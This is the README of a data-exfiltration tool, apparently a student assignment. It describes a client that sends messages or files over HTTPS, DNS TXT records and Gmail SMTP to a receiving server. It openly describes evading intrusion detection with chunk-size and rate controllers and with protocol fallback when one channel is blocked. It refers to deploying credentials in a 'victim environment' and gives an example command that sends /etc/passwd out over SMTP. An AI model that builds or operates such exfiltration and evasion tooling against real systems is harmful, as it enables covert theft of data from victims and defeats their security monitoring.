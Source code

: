 # Fraktal Project

This repository contains the code for the Fraktal project, which includes both client and server applications. The client application can send messages or files using different protocols (HTTPS, DNS, SMTP), and the server application can receive and process these messages or files.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Docker](#docker)
- [Techinical Details](#technical-details)
- [Demo](#demo)
## Installation

### Prerequisites

- Python 3.10 or higher

### Clone the Repository

```sh
git clone https://github.com/khaluan/FraktalAssignment.git
cd FraktalAssginment
```

### Install Python Dependencies
```sh
pip install -r requirements.txt
```
## Usage
### Client Application
The client application can send messages or files using different protocols. You can specify which clients to include, which message to send, or which file to send via command-line arguments.

```sh
python -m client.main --clients https dns --message "Hello, world!"  --size 1000 --rate 5
python -m client.main --clients smtp --file "/etc/passwd"
```

The client application is based on a manager that could change to a different protocol when the current protocol is blocked. 

### Server Application

#### Create certificate for HTTPS server
The HTTPS server requires to have a TLS certificate to operate. To create a self-sign certificate, run the following commands and change the domain name to the corresponding domain.
```sh
openssl genpkey -algorithm RSA -out certs/server.key
openssl req -new -key certs/server.key -out certs/server.csr -subj "/CN=your-domain.com"
openssl x509 -req -days 365 -in certs/server.csr -signkey certs/server.key -out certs/server.crt
```

The server application can receive and process messages or files sent by the client application. User could select to deploy all or few selective protocols on this server. The message is stored in received.txt file and the files are stored in files folder.

```sh
python -m server.main 
```

### Environment variables
The environment variables are stored in the corresponding **[server/client]/config.py** and the credential should be setup in the **.env** file

One important notice is that it is recommended to use two different accounts when exfiltrating data with SMTP, since the credential of the sender is deployed into the victim environment, therefore, that mailbox is considered to be fully compromised. Hence it is not recommended to store any information in that mailbox.

## Technical details
The application tries to send data using different protocol by abusing different fields of the network packet based on the corresponding protocols.

### HTTPS
HTTPS provides a secure communication with TLS. Therefore, it is straightforward to put the data into the body of the requests. In this project, the server setup a simple HTTPS server handle the POST requests. 

The body of the request is used to store data. In case of sending a file, it is encoded using multi-part form. In this case the communication don't need any further encryption since the traffic is already protected with TLS. 

Further protection could be employed encrypt the SNI using the ECH extension in TLS 1.3 to further hide the traffic among benign TLS traffics. However, this is not implemented in this project due to time constraint.

### DNS
DNS is a protocol used to translate human readable names to IP addresses. DNS is based on UDP, and is widely used without encryption. Therefore, the content of the traffic could be analyzed with intrusion detection systems. Therefore, to make it unreadable by the IDS, we need to perform an encryption step before sending the message. 

The client will initiate a request for A record of the specific domain to the server with a specific name to get the encryption key. The key will be in base64 encoding stored in the domain name of the response. Since the encryption key is small it could easily fit into the domain name. 

Then all the subsequent traffic will encrypt the message that needs to be sent, and stored it in an additional TXT record. Since the TXT records allow up to 255 bytes of additional data, it could be abused to encode the data.

However, the DNS requests and response is limited in terms of throughput, it is only effective to extract small data or message. If the size of the data is large, it would result in either big DNS request, or high number of requests per second. Due to this nature, the DNS client only support sending message instead of files.

### SMTP
We use SMTP to create an email from sender to the receiver with the data attached to the body and the extracted files as the attachment. We abuse the smtp server of Google to create a higher credability since it has good reputation and is not likely to be blocked by IDS.

The server just simple check for any new message after a period of time, parse the data and the attachment in the email. However, each attachment is only limited up to 25MB by Google mail service. For a large file exfiltration, the client could split the file into 25MB chunks and send it over the SMTP with the order embedded in the filename.  Then the server can parse that data and reconstruct the file based on the order. The feature is possible to implement, however, due to the time constraint, the implementation is not included in this projects. The client in this projects only support files that is less than 25MB.

To create the application password for gmail account please follow the instruction [here](https://myaccount.google.com/apppasswords)

### Traffic controllers
We provides 2 types of traffic controllers, including the packet size controller and the time controller. This is inspired by the common behavior of the IDS, which is detecting the data exfiltration based on large traffic to a destination server or high number of traffic during a period of time.

#### Package size controller
This controller will try to split the message into smaller chunks with variable length to make the traffic looks the same as the normal traffic. The controller can be configure to have the average payload length for each requests.

This can be set at client with --size [size] flag and only available for sending message

#### Time-based controller
The controller creates pauses between different requests to reduce the high volumn of connection between the client and the server. This controller can be configured by specifying the maximum number of connection per seconds

This can be set at client with --rate [rate] flag and only available for sending message

## Demo
This can be deployed with docker-compose by running 
```sh
docker-compose up
docker compose exec client python -m client.main --clients https --message "hello"
docker compose exec server cat received.txt 
docker compose exec server ls files 
docker compose exec server cat files/[your file name]
```